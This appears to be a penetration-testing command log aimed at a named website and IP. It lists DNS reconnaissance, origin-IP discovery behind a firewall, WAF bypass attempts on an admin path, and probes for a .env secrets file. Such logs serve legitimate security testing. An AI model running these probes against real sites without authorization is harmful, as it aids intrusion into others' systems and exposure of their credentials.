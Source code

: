 # Methodology & Commands Log

## DNS Reconnaissance

```bash
# SPF Record Discovery
dig TXT itskillscentre.com.ng +short

# Resolving included domain
dig A websitewelcome.com +short

# Reverse DNS Lookup (PTR Record)
dig -x 192.185.93.75 +short
```

## Origin IP Verification

```bash
# Direct IP access
curl -I http://192.185.93.75/

# Access with Host Header
curl -I -H "Host: itskillscentre.com.ng" http://192.185.93.75/

# Forced resolution via curl
curl --resolve itskillscentre.com.ng:80:192.185.93.75 -I http://itskillscentre.com.ng/
```

## Application Testing

```bash
# WAF Bypass Attempts
curl -X PURGE https://itskillscentre.com.ng/
curl -H "X-Original-URL: /admin" https://itskillscentre.com.ng/

# Sensitive File Discovery
curl -I https://itskillscentre.com.ng/.env
curl -I https://itskillscentre.com.ng/robots.txt
```


